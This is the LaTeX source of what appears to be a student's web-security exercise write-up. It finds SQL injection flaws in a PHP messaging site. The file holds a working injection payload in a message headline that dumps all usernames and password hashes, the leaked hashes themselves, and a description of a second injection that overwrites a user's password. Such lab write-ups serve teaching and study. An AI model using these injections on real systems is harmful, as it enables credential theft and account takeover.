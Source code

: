 \documentclass[a4paper]{article}
\begin{document}
\section{Part 2}
The injection for getting a list of all user and their personal data is on the page \texttt{/messages.php}. By inspecting the source code, we can find the following SQL query: \\
\begin{lstlisting}
$sql = "INSERT INTO Message (FromID, ToID, Headline, Message) " .
       " VALUES ('$from', '$to', '$headline', '$message')";
\end{lstlisting}
We exploit that we can make an SQL query as the headline parameter, the headline looks like this: \\
\begin{lstlisting}
Usernames Passwords', (Select group_concat(Username, ' ', Password) From Person));#"
\end{lstlisting}
The headline itself is just "Usernames Passwords", but this is where we inject SQL query. We use \texttt{group\_concat} to get all usernames and passwords from th etable "Person". We could get more personal data simply by listing more fields in the Person table. If we wanted to crack the passwords, we would need to take out the salt as well, but I have skipped this part as I do not see it as part of the task. To make sure the SQL statement is valid, we use the character "\#" to comment out the rest of the SQL statement. The injection returns with the usernames and hashed passwords:
\begin{verbatim}
  kflarsen 29006d99bd6d477664f43ee3a5dde925,
  br0ns 54822fa5a4ea6ca8fea0ade431756664,
  kokjo fe7ecc4de28b2c83c016b5c6c2acd826,
  kristoff3r fe7ecc4de28b2c83c016b5c6c2acd826,
  NicolaiNebel fe7ecc4de28b2c83c016b5c6c2acd826,
  rloewe 7bfd638c108b8dba714aeb2e8349603c,
  you 5a8441c3702aacd4103fd8675692f015
\end{verbatim}
These are the users that are originally in the database. I excluded the accounts I made. For the second part of the task, to change the password of the user "br0ns", we made the injection on the page \texttt{/index.php}. If we inspect hte SQL query: \\
\begin{lstlisting}
$sql = "UPDATE Person SET Profile='$profile' ".
       "WHERE PersonID=$user->id";
\end{lstlisting}
We see that we can in a similar manner exploit the SET part and outcommenting the WHERE part. This is done with the following SQL injection: \\
\end{document}
